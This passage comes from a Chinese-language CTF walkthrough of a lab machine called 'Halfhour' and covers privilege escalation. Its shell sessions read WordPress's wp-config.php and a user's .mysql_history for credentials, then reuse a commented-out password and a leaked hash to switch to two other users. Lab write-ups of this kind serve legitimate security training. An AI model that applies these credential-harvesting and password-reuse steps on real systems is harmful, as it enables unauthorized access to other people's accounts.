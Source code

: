 # **四、权限提升**

## **4.1 www-data -> wangjiang**

拿到Shell后，首要任务是信息收集。WordPress站点的数据库凭证通常存储在 `wp-config.php` 文件中。

```bash
www-data@Halfhour:/var/www/halfhour.dsz$ cat wp-config.php
...
define( 'DB_USER', 'wpuser' );
/* define( 'DB_PASSWORD', 'root123' ); */
define( 'DB_PASSWORD', 'your_strong_password' );
...
```

我们在配置文件中发现了两个密码：`your_strong_password` 和被注释掉的 `root123`。利用密码复用的思路，尝试用这些密码切换到系统上的其他用户。

```bash
www-data@Halfhour:/var/www/halfhour.dsz$ ls /home
nxal  wangjiang  welcome
www-data@Halfhour:/home$ su wangjiang
Password: root123
wangjiang@Halfhour:/home$ id
uid=1002(wangjiang) gid=1002(wangjiang) groups=1002(wangjiang)
```

成功使用密码 `root123` 切换到 `wangjiang` 用户。

## **4.2 wangjiang -> welcome**

在 `wangjiang` 的家目录下进行信息搜集，发现 `.mysql_history` 文件中记录了敏感信息。

```bash
wangjiang@Halfhour:~$ cat note.txt
Get user welcome first
wangjiang@Halfhour:~$ cat .mysql_history
...
INSERT INTO user (username, password) 
VALUES ('welcome', '4c850c5b3b2756e67a91bad8e046ddac')
ON DUPLICATE KEY UPDATE password = VALUES(password);
...
```

`note.txt` 提示我们下一步的目标是 `welcome` 用户。`.mysql_history` 文件中泄露了 `welcome` 用户的密码哈希（MD5）：`4c850c5b3b2756e67a91bad8e046ddac`。

一个常见的CTF技巧是，哈希值本身可能就是密码。

```bash
wangjiang@Halfhour:~$ su welcome
Password: 4c850c5b3b2756e67a91bad8e046ddac
welcome@Halfhour:/home/wangjiang$ id
uid=1000(welcome) gid=1000(welcome) groups=1000(welcome)
```
